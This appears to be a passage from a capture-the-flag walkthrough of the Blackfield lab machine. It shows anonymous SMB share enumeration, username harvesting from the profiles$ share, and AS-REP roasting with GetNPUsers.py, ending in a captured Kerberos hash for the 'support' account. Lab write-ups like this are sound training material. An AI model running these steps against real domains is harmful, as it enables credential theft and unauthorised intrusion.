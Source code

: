 Lets try inspecting the shares, the share `forensic` appears to not be a default one, but dont have permissions to view it. So we should focus to the shares that we have `READ ONLY` permissions such as the `IPC$` and `profiles$`
```bash
smbclient -N //blackfield.htb/IPC$
```
got NT_STATUS_NO_SUCH_FILE listing \* , we cant access that share.  

I then inspected the `profiles$` share:
```bash
smbclient -N //blackfield.htb/profiles$
```

```bash
mb: \\> ls
  .                                   D        0  Wed Jun  3 11:47:12 2020
  ..                                  D        0  Wed Jun  3 11:47:12 2020
  AAlleni                             D        0  Wed Jun  3 11:47:11 2020
  ABarteski                           D        0  Wed Jun  3 11:47:11 2020
  ABekesz                             D        0  Wed Jun  3 11:47:11 2020
  ABenzies                            D        0  Wed Jun  3 11:47:11 2020
  ........
```

its contents appear to be usernames! also each one of them contains nothing, BUT this is a way to collect all users, so i copied all of them in a txt, and then sanitized the usernames so a new txt containing only them is formed:
```bash
awk '{print $1}' share_list.txt > usernames.txt
```

```bash
$ cat usernames.txt 
AAlleni
ABarteski
ABekesz
ABenzies
Foothold
```
great! now that we have the usernames in a format that is usable, we can do a multitude of things.

For example we could try hunting for users that have the flag `DONT_REQ_PREAUTH` enabled, a method called `AS-REP` roasting.

## AS-REP roasting

TO perform AS-REP roasting, i will use `GetNPUsers.py`
```bash
GetNPUsers.py -dc-ip 10.129.164.18 BLACKFIELD.local/ -usersfile usernames.txt > as-rep-roast.txt
```

aand we got an asrep hash! and it appears to be associated with user `support`
```bash
$krb5asrep$23$support@BLACKFIELD.LOCAL:3bbe070692d760efc2224b563d1387b8$8bbe45bc2b5f1e80b063a9ceeb35754757f8851e1307c98d3bfcd05be9382d09ad731a9c6547414b5c15d3540903884aa7cb8aab778286593b5c76ab51ce572cbd9ea69d890c48123bb8cfbd3ceac109d9b46e1dc268625f0a7e08fd12f8f3dbc1117556b3326f259ea5d387c2d230728c00115d7fb525ee58b94dc8564dd511a95dfd327790ff1d44d2e215fd149d887033f5f5263a5c1759d8898ffd9093d5d498d44452bb6c7eef15587853e7941c3b2d1840727b2a09df7b04e8bbd35769537304ba20b08328f4dbb3f17f8b4d26fe910d4a4e4867fa482a9b7e3c130969df69a14092b40675b6a8c64be12f5afe4ecc7fca
```
